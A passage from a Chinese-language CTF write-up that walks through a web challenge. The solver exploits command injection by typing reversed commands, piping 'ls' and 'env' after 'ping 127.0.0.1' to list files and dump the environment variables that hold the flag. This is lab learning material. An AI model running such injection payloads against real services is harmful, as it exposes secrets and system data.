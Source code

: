然后我们传参：（注意不要加上b和引号）：

<img src="https://s2.loli.net/2023/03/26/BAR91hw4JjNZdyL.png" alt="image-20230326232415534" style="zoom:33%;" />

成功写入，然后我们直接读：

![image-20230326232509037](https://s2.loli.net/2023/03/26/6gYB4wzmnqeAysD.png)



#### 猜猜猜

> hint1: tnih
>
> hint2: ping？pong！

![image-20230326224206906](https://s2.loli.net/2023/03/26/3cOZiE5DBX7LJyP.png)

根据提示，我们输入： `thih`

![image-20230326224330872](https://s2.loli.net/2023/03/26/4Eq7a5u21XjUDMr.png)

这里提示我们需要命令执行，而不是sql注入

然后结合hint2，我们可以先 `ping 127.0.0.1`，但是需要翻着输入：

```
1.0.0.721 gnip
```

![image-20230326224519411](https://s2.loli.net/2023/03/26/nrV1tewb6THKqYB.png)

然后我们使用管道符 `|` 查看当前目录下的文件

```
sl | 1.0.0.721 gnip
```

![image-20230326224635973](https://s2.loli.net/2023/03/26/Md7PCn59NAuSbJi.png)

成功命令执行，然后猜flag在环境变量中：

```
ping 127.0.0.1 | env

vne | 1.0.0.721 gnip
```

![image-20230326224745021](https://s2.loli.net/2023/03/26/4x8TVGeYtD3MIWQ.png)

读取到flag



### MISC

#### traffic

